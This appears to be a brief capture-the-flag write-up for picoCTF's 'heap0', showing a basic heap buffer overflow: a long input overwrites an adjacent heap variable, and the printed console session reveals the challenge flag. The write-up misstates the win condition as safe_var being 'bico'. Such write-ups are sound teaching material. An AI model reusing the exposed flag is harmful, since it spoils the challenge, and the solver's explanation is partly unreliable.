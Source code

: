#Description
Are overflows just a stack concern?

#Solve
Checked the source code, found that program was asking to write to buffer , saw that to get flag the program checks if safe_var is "bico" and that memory for safe_var is allocted with malloc, and it is 5 bytes, and saw as a clue the description talks about overflows, so with the given function to write buffer i overflowed to the safe_var buffer which was very close to the memory location of input buffer.
then did the check for flag option.

`flag : picoCTF{my_first_heap_overflow_e4c92a78}`

```bash
 Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5b80a61852b0  ->   pico
+-------------+----------------+
[*]   0x5b80a61852d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: aidnaidjiadiajdiajidjiasjdiajdijsaidjasijdisad

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5b80a61852b0  ->   aidnaidjiadiajdiajidjiasjdiajdijsaidjasijdisad
+-------------+----------------+
[*]   0x5b80a61852d0  ->   saidjasijdisad
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{my_first_heap_overflow_e4c92a78}
```

